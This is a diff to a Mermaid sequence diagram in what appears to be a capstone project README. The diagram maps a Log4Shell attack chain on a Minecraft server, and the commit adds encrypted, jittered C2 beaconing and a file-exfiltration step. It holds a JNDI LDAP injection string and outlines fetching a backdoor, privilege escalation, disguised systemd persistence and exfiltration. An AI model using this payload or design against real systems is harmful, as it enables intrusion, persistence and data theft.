

The diagram in README.md (newmie10/564Capstone), drawn with Mermaid (neutral theme) before and after one commit. The commit also changed other lines of this file, not shown here.

````diff
--- a/README.md
+++ b/README.md
@@ -11,37 +11,40 @@
 ```mermaid
 sequenceDiagram
     autonumber
     
     box rgb(255, 230, 230) Attacker Infrastructure
     participant Client as Attacker Client
     participant LDAP as Marshalsec LDAP (1389)
     participant Web8888 as Payload HTTP (8888)
     participant Web8000 as Payload HTTP (8000)
     participant C2 as Docker C2 (5000)
     end
     
     box rgb(230, 240, 255) Victim Infrastructure
     participant Server as Minecraft Server (Victim)
     participant Root as Root OS (sudo/systemd)
     end
 
     Client->>Server: 1. Send Chat: ${jndi:ldap://IP:1389/Beachhead}
     Server->>LDAP: 2. JNDI Lookup for Beachhead
     LDAP-->>Server: 3. HTTP Redirect to Beachhead.class
     Server->>Web8888: 4. GET /Beachhead.class
     Web8888-->>Server: Returns Beachhead.class
     Note right of Server: JVM Executes Beachhead
     Server->>Web8000: 5. Wget /Persistent.elf
     Web8000-->>Server: Returns Backdoor ELF
     Server->>Root: 6. Trigger PrivEsc (CVE-2025-32463)
     Root-->>Server: Spawns root execution context
     Server->>Root: 7. Write & Start systemd-cache.service
     Note over Root,C2: Persistence Established
-    Root->>C2: 8. POST /checkin (Hostname)
-    loop Every 5 seconds
+    Root->>C2: 8. POST /checkin (Encrypted Hostname)
+    loop Every 5-20 seconds (Jittered)
         Root->>C2: 9. GET /command
-        C2-->>Root: {"command": "recon"}
+        C2-->>Root: Encrypted Command
         Note right of Root: Executes locally
-        Root->>C2: POST /result (Output)
+        Root->>C2: POST /result (Encrypted Output)
+        opt If Exfil Command
+            Root->>C2: POST /exfil (Encrypted Base64 File)
+        end
     end
 ```
````
